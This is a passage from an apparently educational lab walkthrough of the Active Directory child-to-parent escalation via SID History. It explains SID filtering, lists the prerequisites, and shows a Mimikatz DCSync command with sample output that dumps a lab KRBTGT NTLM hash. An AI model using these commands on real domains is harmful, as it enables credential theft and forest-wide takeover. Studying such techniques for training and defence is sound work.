 
> **Why SID Filtering is Still Useful**
>
>While SID Filtering blocks the main functionality of SID history, its purpose is not to disable SID history entirely but to **control where and when SID history can be used**:
>
>- **Within the Same Forest:**  
>   SID Filtering is typically not applied to intra-forest authentication because all domains in a forest share the same schema and security boundary. SID History works seamlessly here.  
 >  Example: Users migrating between domains in the same forest (`DomainA.local` to `DomainB.local`) can use SID history without interference.
 >   
>- **Between Different Forests:**  
    Trusts between forests (or external domains) are high-risk. SID Filtering ensures that only valid SIDs from the trusted forest or domain are honored, blocking any unauthorized or injected SIDs.

### The attack

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

#### Step 1: getting the KRBTGT hash from the child domain
First, we need to obtain the NT hash for the [KRBTGT](https://adsecurity.org/?p=483) account, which is a service account for the Key Distribution Center (KDC) in Active Directory.

Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.

```cmd-session
# Go to mimikatz.exe file in the explorer and execute as admin

lsadump::dcsync /user:$domain\$user
# Example:
# .\mimikatz.exe
# lsadump::dcsync /user:LOGISTICS\krbtgt
```

Results:

```
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 10:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
```